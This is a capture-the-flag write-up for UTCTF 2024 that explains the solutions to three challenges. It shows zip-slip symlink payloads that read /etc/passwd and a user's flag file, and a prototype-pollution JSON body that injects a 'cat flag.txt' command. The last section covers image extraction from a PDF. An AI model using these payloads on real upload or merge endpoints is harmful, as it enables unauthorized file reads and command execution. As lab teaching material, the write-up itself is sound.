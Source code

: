 # UTCTF

```yaml
date: 30-03-2024
```

## Web


### Schrodinger

* Zip slip vulnerability in the file upload functionality
* First see the home directory user name by uploading zipped file as below

```bash
ln -s ../../../../../../../../etc/passwd test
zip --symlinks payload.zip test
```
You'll see that copenhagen is the user name

create next payload using

```bash
ln -s ../../../../../../../../home/copenhagen/flag.txt test
zip --symlinks payload.zip test
```

This will give the flag.

Refer:
<https://infosecwriteups.com/zippy-challenge-writeup-cyberhack-ctf-80eb1d422249>
"
### Easy Mergers v0.1

* Prototype pollution vulnerability in merger.js file

POST /api/absorbCompany/0 HTTP/1.1

```json
{"attributes":["__proto__"],"values":[{"cmd":"cat flag.txt"}]}
```

Refer: <https://portswigger.net/web-security/prototype-pollution>


## Forensics

### Contracts

* install poppler-utils `sudo apt install poppler-utils`
* extract images from the pdf using `pdfimages -all contracts.pdf images/img`
* one of the image displays the flag



